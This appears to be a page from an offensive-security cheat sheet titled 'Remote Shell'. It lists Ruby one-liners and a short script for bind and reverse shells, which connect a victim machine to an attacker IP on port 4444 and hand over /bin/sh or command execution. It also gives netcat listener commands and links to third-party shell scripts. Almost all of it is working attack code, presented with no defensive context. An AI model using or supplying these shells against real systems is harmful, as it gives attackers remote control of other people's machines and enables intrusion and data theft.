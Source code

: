 # Remote Shell

> **Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
since `192.168.0.15` is the victim IP

## Reverse shell
Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't whant to rely on `/bin/sh`
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't want to rely on `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you want it more flexible script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```
- To listen 
```
ruby ncat.rb -lvp 443 
```

- To connect 
```
ruby ncat.rb -cv -r RHOST -p 443
```

## Bind and Reverse shell 
This is an awesome implementation for a standalone  [bind][1] and [reverse][2] shells scripts written by [Hood3dRob1n][3] on github . The bind shell requires authentication while reverse is not.



<br><br><br>
---
[1]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb
[2]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb
[3]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells